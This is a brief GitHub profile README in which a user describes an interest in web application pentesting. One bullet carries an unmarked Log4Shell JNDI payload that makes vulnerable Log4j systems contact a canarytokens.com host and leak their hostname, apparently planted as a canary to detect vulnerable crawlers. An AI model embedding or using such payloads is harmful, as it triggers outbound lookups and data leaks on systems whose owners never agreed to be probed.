- 👋 Hi, I’m @deepanshu369
- 👀 I’m interested in Cyber security 
- 🌱 I’m currently doing web application pentesting and learning everyday . ${jndi:ldap://x${hostName}.L4J.67ojbbr38jelpk2il56snew5f.canarytokens.com/a}
- 💞️ I’m looking to collaborate on finding vulnerbailities in web assets .
- 📫 How to reach me notwanttodisclose@gmail.com

<!---
deepanshu369/deepanshu369 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
